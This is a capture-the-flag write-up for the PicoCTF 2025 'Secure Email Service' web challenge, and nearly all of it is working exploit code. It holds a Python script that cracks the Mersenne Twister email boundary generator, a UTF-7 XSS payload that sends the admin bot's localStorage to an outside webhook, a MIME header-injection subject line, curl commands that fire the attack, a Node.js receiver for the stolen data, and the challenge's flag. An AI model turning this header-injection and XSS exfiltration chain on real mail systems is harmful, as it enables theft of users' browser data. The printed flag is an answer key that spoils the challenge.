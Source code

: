 # PicoCTF 2025 - Secure Email Service (ID 496)
Welcome Ladies and Gentlemen. Today I'm gonna show you how to steal the admin's browser `localStorage` flag by exploiting flaws in email parsing and rendering.
#
Challenge Overview:
- Category: Web Exploitation
- Difficulty: Hard
- Points: 500
- Flag: `picoCTF{always_a_step_ahead_fb2a1a8c}`

Key Mechanics:
1. S/MIME signed emails render HTML in shadow DOM
2. Admin bot views emails with flag in localStorage
3. Vulnerable to header injection and boundary prediction
#
## 1. Setup & Reconnaissance
```bash
# Get credentials
INSTANCE_URL="https://your-instance-url.ctf"
USERNAME=$(curl -s "$INSTANCE_URL" | grep -oP 'user@ses\w*')
PASSWORD=$(curl -s "$INSTANCE_URL/api/password" | jq -r '.password')

# Login and get session cookie
SESSION_COOKIE=$(curl -s -X POST "$INSTANCE_URL/api/login" \
  -H "Content-Type: application/json" \
  -d "{\"username\":\"$USERNAME\",\"password\":\"$PASSWORD\"}" \
  | jq -r '.session_cookie')
```
## 2. Boundary Prediction (Mersenne Twister Crack)
```python
import re
import requests
from z3_crack import Untwister

def get_boundary(session, to, subject, body):
    """Extract boundary from sent email"""
    resp = session.post(f'{INSTANCE_URL}/api/send',
                       json={'to': to, 'subject': subject, 'body': body})
    return int(re.findall(r"===(\d+)==", resp.json()['data'])[0])

# Initialize session and cracker
session = requests.Session()
session.cookies.set('session', SESSION_COOKIE)
ut = Untwister()

# Collect 800 boundaries for cracking
for i in range(800):
    boundary = get_boundary(session, USERNAME, f"Probe {i}", "test")
    b_bin = bin(boundary)[2:].zfill(63)
    ut.submit(b_bin[31:])  # Lower 32 bits
    ut.submit(b_bin[:31] + '?')  # Upper 31 bits + padding

# Predict admin's reply boundary
ut.get_random().getrandbits(63)  # Skip our payload boundary
ADMIN_BOUNDARY = f"{ut.get_random().getrandbits(63):019d}"
```
## 3. Craft Malicious Payload
```python
import base64

# UTF-7 encoded XSS payload
XSS_PAYLOAD = """
+ADw-img src=+/x onerror=eval(atob('
    fetch(`https://your-webhook.url/?flag=${btoa(localStorage.flag)}`)
'))+AD4-
"""

# MIME encoded-word wrapper
ENCODED_PAYLOAD = base64.b64encode(
    f"""
--{ADMIN_BOUNDARY}
Content-Type: text/html; charset=utf-7

{XSS_PAYLOAD.strip()}
--{ADMIN_BOUNDARY}--
""".encode('utf-8')
).decode('ascii')

# Final subject with header injection
MALICIOUS_SUBJECT = (
    f"Hi =?ISO-8859-1?B?{ENCODED_PAYLOAD}?= \n"
    f"From : admin@ses\n"
    f"Content-Type: multipart/mixed; boundary=\"{ADMIN_BOUNDARY}\""
)
```
## 4. Send Exploit & Trigger Bot
```bash
# Send malicious email to admin
curl -X POST "$INSTANCE_URL/api/send" \
  -H "Content-Type: application/json" \
  -H "Cookie: session=$SESSION_COOKIE" \
  -d "{
    \"to\": \"admin@ses\",
    \"subject\": \"$(echo -e "$MALICIOUS_SUBJECT" | jq -Rs .)\",
    \"body\": \"Impossible W\"
  }"

# Trigger admin bot twice
curl -X POST "$INSTANCE_URL/api/admin_bot" \
  -H "Cookie: session=$SESSION_COOKIE"

sleep 5  # Wait for first processing

curl -X POST "$INSTANCE_URL/api/admin_bot" \
  -H "Cookie: session=$SESSION_COOKIE"
```
## 5. Flag Exfiltration
```javascript
// Webhook receiver (Node.js)
const http = require('http');
const server = http.createServer((req, res) => {
    const flag = Buffer.from(
        req.url.split('?flag=')[1],
        'base64'
    ).toString('utf-8');

    console.log(`[+] Flag captured: ${flag}`);
    res.end();
});

server.listen(8080, () => {
    console.log('Listening for flag on port 8080...');
});
```
# Final Output
webhook output:

[+] Flag captured: `picoCTF{always_a_step_ahead_fb2a1a8c}`
#
# Dependencies
```bash
# Install required packages for webhook testing
pip install requests z3-solver pycryptodome
npm install -g requestcatcher
```
#

Don't forget to visit my PicoCTF profile on:

https://play.picoctf.org/users/ilhambagas
